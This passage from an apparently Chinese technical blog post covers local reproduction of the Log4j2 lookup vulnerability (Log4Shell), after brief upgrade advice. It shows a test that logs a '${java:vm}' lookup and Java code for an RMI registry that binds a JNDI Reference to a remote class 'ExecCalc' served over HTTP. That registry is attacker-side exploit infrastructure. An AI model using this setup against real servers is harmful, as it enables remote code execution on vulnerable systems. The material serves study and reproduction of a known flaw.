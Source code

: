1、升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1

2、升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

# 本地复现漏洞

首先需要使用低版本的 log4j 包，我们在本地新建一个 Spring Boot 项目，使用 2.5.7 版本的 Spring Boot，可以看到一老的 log4j 是 2.14.1，可以复现漏洞。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165545.png)

参考 [Apache Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)，我们先使用代码在 log 里获取一下 java:vm。

## 本地打印 JVM 基础信息

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165937.png?x-oss-process=style/yano)

```java
@SpringBootTest
class Log4jApplicationTests {

	private static final Logger logger = LogManager.getLogger(SpringBootTest.class);

	@Test
	void log4j() {
		logger.info("content {}", "${java:vm}");
	}
}
```

可以发现输出是：

```
content Java HotSpot(TM) 64-Bit Server VM (build 25.152-b16, mixed mode)
```

使用 JavaLookup 获取到了 JVM 的相关信息（需要使用`java`前缀）。

## 本地获取服务器的打印信息

本地启动一个 RMI 服务：

```java
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:8081/";
        // Reference 需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们 http 服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecCalc", "ExecCalc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("calc", referenceWrapper);
    }
}
```
